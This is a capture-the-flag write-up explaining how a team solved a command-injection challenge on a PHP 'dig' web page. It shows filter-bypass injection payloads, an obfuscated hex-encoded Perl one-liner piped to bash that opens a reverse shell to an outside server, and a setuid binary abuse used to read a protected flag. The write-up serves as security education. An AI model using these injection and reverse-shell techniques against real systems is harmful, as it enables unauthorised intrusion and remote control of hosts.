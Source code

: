 ## dig host 3 (bonus)
### intro
For the FE CTF 2022 (**F**orsvarets **E**fterretningstjeneste aka Danish Defence Intelligence Service) there was a series of command injection challenges called "dig host". 1 through 3 were pretty trivial, but "dig host 3 (bonus)" was a bit trickier. To get a sense of what the challenge looks like you can try looking at this [dig host 3](https://youtu.be/Xuf5iqOc-eY) video writeup, since the flag for "dig host 3 (bonus)" was on the same system. I played with the [DTUHAX](https://hackerlab.dtu.dk) team which is the DTU (Technical University of Denmark) ctf/hacking team.

### solution
The easy solution to this one is to simply run ``'`{cat,bonus_flag}`'``. However we did not find the easy solution. Here's how you take the long way around...

The challenge offers you a webpage where you can run the program DiG and query some dns record.

![no alt](images/dighost1.png)

The previous 3 challenges have been about command injection, so we tried various command injection. By sending `;ls` we can see which files exist in the directory, we can read files by running `;cat<flag`. This works because the website is concatenating the user input to `"dig "` and running the resulting string in bash.

![no alt](images/dighost2.png)

The first line `/dig [host]` shows an error from DiG¹ and then the output from ls.

If you run `;cat<flag` it prints the flag. This is how we solved dig host 3, but running `;cat<bonus_flag` prints nothing. My instinct here is to check what the file permissions are, or if it even is a file (it could be a directory, or a broken symlink), but running `ls -al` requires a dash (filtered) and a space (filtered). We can however run `;cat<dig_host_level3.php`. 

```php
<?php
        require_once("../include/smarty.php");


        $host = "";
    $output = "";

        if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) {
        $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]);

        exec("/dig ".$host, $output);
    }

        $smarty->assign(array(
                "PHP_SELF"      => $_SERVER["PHP_SELF"],
                "host"          => $host,
        "output"    => implode("\n", $output)
        ));

        $smarty->display("dig_host_level3.tpl");
?>
```

This code does pretty much what we'd expect from our interactions with it. It takes the user input, removes a list of disallowed characters, concats it to `/dig ` and runs it. Not being able to use whitespace, `$` or `-` is pretty limiting. The lack of whitespace makes it impossible to run commands with arguments², but we did get 1 space for free. Namely the space between `/dig` and whatever we typed in, so I thought about ways to abuse that one space.

![no alt](images/dighost3.png)

I noticed that DiG echos the input you give it at the end of the first line. If we give a reversed payload it will echo it to us, we can then reverse the reverse on our payload by using `rev`. Using this method we can inject almost arbitrary strings (specifically strings that match the regex `[^\s$-]+`) into the beginning of our line. We ran `ls -al /usr/bin` on the machine from dig host 1 (where it allowed spaces and dashes) to see which programs it had that might grant us RCE from this. We tried `python3`, `node` and `perl`.

Something like this would let us go from writing almost arbitrary strings with garbage postfixed, to writing fully arbitrary strings to stoudout.
```python
print(bytes([101,118,105,108,32,115,116,117,102,102]).decode()) >><< utnubU-1.61.9 GiD >><< ;
dmc+ :snoitpo labolg ;;
:rewsna toG ;;
... more garbage here ...
```
By piping this into python (and ignoring the garbage) it would let us generate strings that contain any character. Unfortunately none of them would accept incomplete multiline comments like `"""` in python or `/*` in javascript, not closing your comments is an error. Single line comments wouldn't help since it parsed the entire file at once. After many hours of trying things that didn't work we tried the following payload.

```
ffuts_live_od|rev>/tmp/bleh;echo`cat</tmp/bleh`
```
This payload echos `ffuts_live_od` using `dig`, then reverse it so that `do_evil_stuff` is first on the first line, then writes it to `/tmp/bleh` and then echos the output of `cat</tmp/bleh`, which collapses it into one line. Every sequence of whitespace is collapsed into one space, as the string is parsed into arguments by bash and then joined with spaces by echo.

```bash
$ echo `printf "a\n\nbc\t\td    e f"`
a bc d e f
```

This lets of have a single line with controlled prefix.

![no alt](images/dighost4.png)

RCE baby!!!

I wrote a small python script to help generate payloads and after 3 hours of sleep I made this monster. (I'm skipping over the string escaping because it is nuts and boring³)
```bash
\\\#\\\)\\\"13x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"03x\\\\\\\".\\\"02x\\\\\\\".\\\"73x\\\\\\\".\\\"33x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"83x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"e2x\\\\\\\".\\\"33x\\\\\\\".\\\"73x\\\\\\\".\\\"e2x\\\\\\\".\\\"23x\\\\\\\".\\\"23x\\\\\\\".\\\"e2x\\\\\\\".\\\"53x\\\\\\\".\\\"63x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"07x\\\\\\\".\\\"36x\\\\\\\".\\\"47x\\\\\\\".\\\"f2x\\\\\\\".\\\"67x\\\\\\\".\\\"56x\\\\\\\".\\\"46x\\\\\\\".\\\"f2x\\\\\\\".\\\"02x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"02x\\\\\\\".\\\"96x\\\\\\\".\\\"d2x\\\\\\\".\\\"02x\\\\\\\".\\\"86x\\\\\\\".\\\"37x\\\\\\\"\\\(tnirp|rev>/tmp/bleh;echo`cat</tmp/bleh`>/tmp/gamer;perl</tmp/gamer|bash
```

It makes a reverse shell to DTUHAX's server. The challenge is not done.

![no alt](images/dighost5.png)

We still can't read bonus_flag. Turns out you have to be user 200000, (aka root? I think) and we are not user 200000. Luckily `/dig` is a setuid binary with the right user, and DiG has an option to read domains to query from a file⁴, and it echos those domains!

![command on challenge server](images/dighost6.png)

huh?

![command locally](images/dighost7.png)

works fine locally?

We spent a long time trying to figure this out, eventually we used the rev shell to copy their version of DiG and reversed it. It is not at all the normal DiG binary.
![no alt](images/dighost8.png)

Turns out they have 2 dig binaries and a symlink. I searched the whole filesystem on remote for files called `dig`. It's not that many binaries, but it's one more than we'd expect.
```
$ find / -name dig 2>/dev/null
/usr/bin/dig
/web-apps/php/html/dig
/dig
$ ls -al /web-apps/php/html/dig
lrwxrwxrwx 1 nobody nogroup 4 Oct 26 13:26 /web-apps/php/html/dig -> /dig
```
The binary checks that `argc == 2` and filters some illegal characters from the first argument, then it just runs it in bash.

![binary ninja decompilation of the main function of the fake dig binary](images/dighost9.png)

They don't ban `-` in the fake `dig` binary so running `/dig -fbonus_flag` works fine. This works because the fake dig binary sees `-fbonus_flag` as one argument, and then forwards it to bash running as a higher privilege user (because of setuid).

```
$ /dig -fbonus_flag
; <<>> DiG 9.16.1-Ubuntu <<>> flag{wait, i thought this was web!}
;; global options: +cmd
(more garbage is printed after)
```

### epilogue

Why does ``'`{cat,bonus_flag}`'`` work? The payload is quoted in single quotes, which should make it be treated as a string. Additionally, the PHP user doesn't have permission to access the bonus_flag file. This only works because the single quotes makes the first instance of bash (as run by PHP) pass the inner data as is to the fake dig binary.
PHP runs ``/dig '`{cat,bonus_flag}`'`` which makes the fake dig binary run execve which runs `/bin/bash` with the arguments og `bash`, `-pc` and `` dig `{cat,bonus_flag}` ``.

What exactly happens after this is left as an exercise for the reader. :)

### alternative writeup
pyjam.as's [writeup](https://pyjam.as/writeups/fectf2022) shows a really creative solution that involves modifying your DNS records! It's in danish though, and the website is abhorent.

### footnotes

¹ One thing you might notice about running `dig` without arguments on your own machine is that it doesn't print `/dig [host]`, it doesn't even error. This is a hint that we're not running the DiG binary that we expect. At the time I did not notice this.

² This is what we believed at least. There are payloads like ``'`{cat,bonus_flag}`'`` which break out of this. However the reason this payload works is pretty finicky.

³ I'm not 100% of the details for this. As is written later in the writeup, the payload is actually parsed and serialized by bash twice, at least. These tranformations are deterministic and can easily be reversed, but only if you know what parsers are between you and your target. At this part of the attack I fully believed it was only parsed once, as the PHP code calls exec on dig. The fact that it runs `"/dig"` instead `"dig"` should have tipped me off that it might not be running a normal dig binary. You can look at the (awful, ctf) code [here](dig-host-3-bonus/payload.py)

⁴ A useful resource for figuring out security relevant capabilities for random linux binaries is [gtfobins](https://gtfobins.github.io/gtfobins/dig/).